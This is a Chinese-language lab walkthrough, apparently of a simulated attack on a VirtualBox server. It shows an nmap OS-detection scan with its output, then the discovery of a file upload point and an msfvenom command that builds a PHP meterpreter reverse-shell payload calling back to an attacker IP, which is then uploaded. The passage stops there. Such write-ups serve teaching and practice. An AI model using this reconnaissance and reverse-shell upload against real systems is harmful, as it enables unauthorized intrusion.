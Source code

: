 > 由于条件有限，只能模拟到这个程度，但我个人认为~~足以进行抽象测试了~~(逃

## 攻击过程

总有人喜欢搞破坏，一名黑客对服务器进行了扫描... 
```bash
$ sudo nmap -O -v 192.168.0.116
```

结果是这样的
```txt
Nmap scan report for 192.168.0.116
Host is up (0.00028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:B7:2E:E5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Uptime guess: 49.708 days (since Sat Aug  8 02:56:12 2020)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros

Read data files from: /usr/bin/../share/nmap
OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.13 seconds
           Raw packets sent: 1023 (45.806KB) | Rcvd: 1015 (41.286KB)
```

他惊讶地发现内核版本居然才 `2.6.32`，这样的事他还是第一次见。 

除此之外，开放的端口有 SSH 、 HTTP ，这给了他很好的机会。

他试图访问了网站，在网站上发现了一个文件上传点。

![](/img/2020-09-26_21-18.png)

抱着试试看的态度，用 msf 生成了一个 payload
```bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.109 LPORT=4444 -o shell.php
```

选择了文件，点击上传惊奇地发现，不止上传成功，还被告知了位置
![](/img/2020-09-26_21-22.png)
